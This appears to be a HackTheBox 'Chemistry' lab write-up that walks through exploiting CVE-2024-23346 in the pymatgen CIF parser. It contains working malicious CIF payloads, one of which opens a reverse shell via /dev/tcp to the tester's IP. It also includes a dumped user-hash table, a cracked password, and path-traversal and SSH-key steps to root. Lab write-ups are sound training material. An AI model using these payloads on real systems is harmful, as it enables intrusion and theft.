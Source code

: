 ```yaml
---
layout: post
title: "Chemistry"
date: 2024-12-28
categories: hackthebox
---
```



```bash
sudo nmap -sC -sV -T4 -p- -oN nmap 10.129.248.106
```

![[Pasted image 20241020022405.png]]

only port 5000 is open 

the website allow us to upload a CIF file 

![[Pasted image 20241020022634.png]]


after a little bit of googling I found that the CIF file is a files used in some kind of chemistry stuff , I potential library (pymatgen) that can be used in  this kind of stuff .

this library suffer from  #CVE-2024-23346 

https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

I change the payload of  the file with this 

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.14.132");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```


after trying to view the file 

![[Pasted image 20241020053514.png]]


getting shell

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i &>/dev/tcp/10.10.14.132/1337 <&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```


![[Pasted image 20241020054408.png]]


I just enumerate the `/home/app` a little bit , and I found an interesting file 
`database.db`

```bash
strings /home/app/instance/database.db

strings /home/app/instance/database.db
SQLite format 3
ytableuseruser
CREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(150) NOT NULL,
        password VARCHAR(150) NOT NULL,
        PRIMARY KEY (id),
        UNIQUE (username)
indexsqlite_autoindex_user_1user
5tablestructurestructure
CREATE TABLE structure (
        id INTEGER NOT NULL,
        user_id INTEGER NOT NULL,
        filename VARCHAR(150) NOT NULL,
        identifier VARCHAR(100) NOT NULL,
        PRIMARY KEY (id),
        FOREIGN KEY(user_id) REFERENCES user (id),
        UNIQUE (identifier)
indexsqlite_autoindex_structure_1structure
check.cifdcfb4e48-76c1-443b-87a3-21d3d9cb707c3
check.cif7f11548a-b442-4b6f-b380-b92e64dbf21c3
check.cif76578519-aed6-4eb1-b920-16f39e12f2a63
check.cifc70e34f5-26db-4d4f-bc9b-d49b420791643	
check.cif178ff1bf-0ba5-43fe-8e62-87f8a1d2bdaf3
check.cif6a2e39a0-c66c-4114-a4c7-5bce40afe1aa3
shell.cifb3d6de33-c4c3-4b14-b9b9-6a27e2875c073
shell.cif13487916-50e2-4f5c-adec-a3fae1c9e85f1
rce.cif91ba68f0-6258-423a-990a-8320aa5e18481
rce.ciffeed5fc0-cb23-47e1-8fb5-42a93dfb97dd1
rce.ciffd75b664-b324-41c4-b890-abf84ed7756f5
example.cife63baf83-a7df-49b2-969e-521cb945ab6d5
example.cifa3eac938-17c2-48c0-a408-9929c659aa47
dcfb4e48-76c1-443b-87a3-21d3d9cb707c
7f11548a-b442-4b6f-b380-b92e64dbf21c
76578519-aed6-4eb1-b920-16f39e12f2a6
c70e34f5-26db-4d4f-bc9b-d49b42079164
178ff1bf-0ba5-43fe-8e62-87f8a1d2bdaf	(
6a2e39a0-c66c-4114-a4c7-5bce40afe1aa
b3d6de33-c4c3-4b14-b9b9-6a27e2875c07
13487916-50e2-4f5c-adec-a3fae1c9e85f
91ba68f0-6258-423a-990a-8320aa5e1848
feed5fc0-cb23-47e1-8fb5-42a93dfb97dd
fd75b664-b324-41c4-b890-abf84ed7756f
e63baf83-a7df-49b2-969e-521cb945ab6d
U	a3eac938-17c2-48c0-a408-9929c659aa47
Md0s3nta386e70db5d043ce7584bb27512f3114+
Mkristel6896ba7b11a62cacffbdaded457c6d92(
Maxel9347f9724ca083b17e39555c36fd9007*
Mfabian4e5d71f53fdd2eabdbabb233113b5dc0+
Mgelacia4af70c80b68267012ecdac9a7e916d18+
Meusebio6cad48078d0241cca9a7b322ecd073b3)	
Mtaniaa4aa55e816205dc0389591c9f82f43bb,
Mvictoriac3601ad2286a4293868ec2a4bc606ba3)
Mpeter6845c17d298d95aa942127bdad2ceb9b*
Mcarlos9ad48828b0955513f7cf0f7f6510c8f8*
Mjobert3dec299e06f7ed187bac06bd3b670ab2*
Mrobert02fcf7cfc10adc37959fb21f06c6b467(
Mrosa63ed86ee9f624c7b14f1d4f43dc251a5'
Mapp197865e46b878d9e74a0346b6d59886a)
Madmin2861debaf8d99436a10ed6f75a252abf
d0s3nt
kristel
axel
fabian
gelacia
eusebio
tania	
victoria
peter
carlos
jobert
robert
rosa
	admin
```

file contain different hashes , I tried to crack rosa hash since , she's user in the machine

![[Pasted image 20241020054726.png]]

`rosa:unicorniosrosados`

![[Pasted image 20241020054820.png]]

## root

for the root , I found an internal webapp 

```bash
 netstat -ntlp
```

![[Pasted image 20241020055021.png]]

forward it to port 8081 on my own machine
```bash
ssh -L 8081:127.0.0.1:8080  rosa@10.129.17.243
```

![[Pasted image 20241020055115.png]]

![[Pasted image 20241020055223.png]]


after wasting a lot of time , checking crontabs

the app is vulnerable to path traversing on `/assets`

![[Pasted image 20241020055505.png]]


![[Pasted image 20241020055605.png]]


just copy the ssh key to  file 

```bash
chmod 600 root_key
ssh root@10.129.17.243 -i root.key
```

![[Pasted image 20241020055804.png]]